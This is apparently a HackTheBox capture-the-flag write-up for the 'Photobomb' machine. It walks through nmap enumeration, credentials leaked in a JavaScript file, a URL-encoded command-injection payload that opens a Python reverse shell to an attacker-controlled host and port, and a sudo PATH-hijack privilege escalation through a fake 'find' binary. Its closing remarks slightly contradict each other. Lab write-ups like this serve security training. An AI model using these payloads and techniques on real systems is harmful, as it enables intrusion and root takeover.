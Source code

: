 ```yaml
---
title: "CTF: Photobomb"
categories:
  - HTB
  - Writeup
---
```


The HackTheBox weekly machine named Photobomb was relatively easy to exploit. 

The first step involved discovering the login credentials by analyzing a JavaScript file. Once I gained access to an image manipulation panel using the credentials, I identified a command injection vulnerability and leveraged it to obtain execution and a shell. The privilege escalation phase was accomplished by executing a script as root, and there were two ways to achieve this. The first method involved exploiting a find command that was called without the full path, while the second method involved taking advantage of a disabled Bash builtin.

The machine [HTB - Photobomb](https://app.hackthebox.com/machines/500)


## Enumeration

```bash
┌──(root㉿kali)-[~]
└─# nmap -sV -sC 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 21:53 EST
Nmap scan report for 10.10.11.182
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

Looks like ports [22, 80] are Open.

To take a look at T80 we should add our an entry to `/etc/hosts`.
```
┌──(root㉿kali)-[~]
└─# echo "10.10.11.182 photobomb.htb" >>/etc/hosts
```

![image](https://user-images.githubusercontent.com/29680216/221742245-98cf98fe-9d8f-47b1-8d36-abcaf89a3d63.png)

Clicking the `click here!` redirects to a page `/printer` which requires creds.

![image](https://user-images.githubusercontent.com/29680216/221742383-a7ee84aa-b3cb-4ee0-9ff3-0ec9d2633c34.png)

Manually inputing some creds showed no promise, but looking at the page source it looks to have a script it loads at the beginning of the page: `photobomb.js`.

Source: `photobomb.js`

![image](https://user-images.githubusercontent.com/29680216/221743317-817dd3e5-77e3-4eb5-8791-b33e6876127b.png)

Looks there's a possible username/password in the href.

![image](https://user-images.githubusercontent.com/29680216/221743975-e884e8a4-86c1-4c96-8258-b33b06139b7e.png)

Opening that URL looks to have let us login to the page.

![image](https://user-images.githubusercontent.com/29680216/221744204-3b16a0a9-8c48-4f74-a0ed-380b45a00b37.png)

Seems to have nothing of interest, but at the bottom there's a section for downloading an image.

![image](https://user-images.githubusercontent.com/29680216/221744437-e3a4b29a-8812-4b7e-93eb-55728b3e2561.png)

Using Burp Suite we can intercept when seeing what this button does.

![image](https://user-images.githubusercontent.com/29680216/221745177-15fb505c-8d94-4cad-95a8-2070664d309d.png)


## Exploitation

Using the below payload injection seems we were able to establish a shell.
- `[LHOST]` your local host.
- `[LPORT]` your local port.

```
%3bexport+RHOST%3d"[LHOST]"%3bexport+RPORT%3d[LPORT]%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Before sending the payload, ensure you're listening on the port above.

![image](https://user-images.githubusercontent.com/29680216/221747141-ae1063aa-9692-4d98-95c5-d4063fcbe7cf.png)

Bingo.

![image](https://user-images.githubusercontent.com/29680216/221747683-4ecaa6d7-6073-4687-9538-062c02926472.png)

Now we need to get ourselves a shell, so we must spawn one.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
wizard@photobomb:~/photobomb$ 
```

Bet. Now that we have a user shell, looks that we have a our first flag.

```
wizard@photobomb:~/photobomb$ ls ~/
ls ~/
photobomb  user.txt
wizard@photobomb:~/photobomb$ cat ~/user.txt    
cat ~/user.txt
a43c08bd49e712707dc3b67c766371d2
```

Now... Let's see what permissions we're working with.

```
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 
```

It looks like there's a script we can run as root: `/opt/cleanup.sh`. Seems we have read rights to view the contents of the script.

```
wizard@photobomb:~/photobomb$ ls -la /opt/cleanup.sh
ls -la /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
```

Taking a peak that the scripts contents 

```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

We can try to overwrite the `find` script and bypass roots `PATH` so that it uses our modfied script to give us a root shell.
```
wizard@photobomb:~/photobomb$ echo "bash" > find
echo "bash" > find
wizard@photobomb:~/photobomb$ chmod +x find
chmod +x find
wizard@photobomb:~/photobomb$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```

Solid. Now we have the root flag.

```
root@photobomb:/home/wizard/photobomb# ls ~/
ls ~/
root.txt
root@photobomb:/home/wizard/photobomb# cat ~/root.txt   
cat ~/root.txt
78dfb63bc7a8d3a0ddd4a6495c723c86
root@photobomb:/home/wizard/photobomb# 
```


## Conclusion

This was a fun box. I enjoyed the manual enumeration and the exploitation. I'm not sure if this was intended, but I was able to get a root shell without having to modify the `find` script. I was able to overwrite the `find` script and then run the `sudo` command with the `PATH` set to the current directory. This allowed me to run my modified `find` script and get a root shell.

Lastly, **Hack the Planet**!